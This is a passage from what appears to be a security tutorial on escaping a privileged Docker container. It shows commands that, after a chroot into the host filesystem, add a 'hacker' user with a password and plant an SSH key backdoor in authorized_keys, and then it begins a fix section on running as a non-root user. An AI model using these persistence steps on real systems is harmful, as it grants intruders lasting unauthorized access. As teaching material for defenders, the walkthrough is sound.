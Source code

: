 Now that we've `chroot`ed into that filesystem, we are effectively on the host computer. Let's see see if we can find
anything juicy, and maybe drop a quick backdoor for ourselves later:

```{code-block} console
---
emphasize-lines: 1
class: skip-tests
---
$ ls -al /home # We can now see /home/ on the host filesystem
total 16
drwxr-xr-x.  3 root     root        22 Apr 24 12:05 .
dr-xr-xr-x. 18 root     root       237 Apr 11 20:37 ..
drwx------. 16 ec2-user ec2-user 16384 Apr 30 23:39 ec2-user
$ useradd hacker
$ echo 'hacker:newpassword' | chpasswd
```

Finally, let's drop our public key into the current user's `~/.ssh/authorized_keys` file so there's another way back in.

```{code-block} bash
---
class: skip-tests
---
echo 'ssh-ed25519 AAAAC3NzAAAAAAAAATE5AAAAIH/JRUsEfBrjsVQmeyBrjsVQmeyBrjsVQmeyBrjsVQYIX example-backdoor' >> ${HOME}/.ssh/authorized_keys
exit
exit
```

Back on the host, we can see evidence of the break-in:

```{code-block} console
---
class: skip-tests
---
$ tail -3 /etc/passwd
nginx:x:991:991:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
hacker:x:1001:1001::/home/hacker:/bin/bash
$ tail -1 "${HOME}/.ssh/authorized_keys"
ssh-ed25519 AAAAC3NzAAAAAAAAATE5AAAAIH/JRUsEfBrjsVQmeyBrjsVQmeyBrjsVQmeyBrjsVQYIX example-backdoor
```

### Fix

How do we prevent these sort of issues? Specific to this breakout, even if we continue to allow `--privileged`, we can
mitigate some of the impact by requiring that non-root users be used at runtime. For instance:

```{code-block} bash
---
class: skip-tests
---
docker run -it -u 1001 --privileged ubuntu:24.04
```
